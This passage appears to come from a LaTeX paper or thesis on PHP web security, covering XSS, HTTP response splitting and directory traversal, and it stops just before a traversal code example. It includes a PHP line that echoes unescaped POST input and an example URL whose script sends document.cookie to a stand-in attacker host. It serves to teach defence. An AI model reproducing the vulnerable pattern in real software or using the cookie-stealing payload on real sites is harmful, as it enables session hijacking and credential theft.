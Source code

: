 \begin{phpcode}
$output = 'Thank you for sending an e-mail to ' . $_POST['email'] . '.';
\end{phpcode}

The URL used by an attacker then could look like this:

\begin{textcode}
http://example.com/blog.php?email=<script>image=new Image();
  image.src="http://evil.example.com/?c="+document.cookie</script>
\end{textcode}

This results in sending the current cookies to a (potentially) malicious server, allowing an attacker to hijack the user's current session.

XSS opens the gates to many kinds of attacks. For example, it is possible to read the passwords from a login form after they have automatically been filled in by the browser's password storage. It also allows reading the clipboard content and sending it to another server.


\subsection{HTTP Response Splitting}
\label{http-response-splitting}
An HTTP response splitting attack is based on code allowing unsanitized CRLF (0x0d0a) character combinations to be included in HTTP headers, thus creating multiple headers.

However, as of PHP versions 4.4.2 and 5.1.2, the \texttt{header()} function only allows one header at a time, thus preventing header injection attacks. \cite{php-manual-header}


\subsection{Directory Traversal/Path Traversal}
\label{directory-traversal}
Directory traversal (also known as \emph{path traversal}) is possible if a vulnerable application includes or outputs a file using a path that comes from an untrusted source. If the application does not check that the path is relative and does not contain two dots (\texttt{..}) (directly or URL-encoded), it is possible to read or overwrite files that should not be visible, e.g. \texttt{/etc/passwd/} or the file with the database credential of the application.

This is an example of vulnerable code:

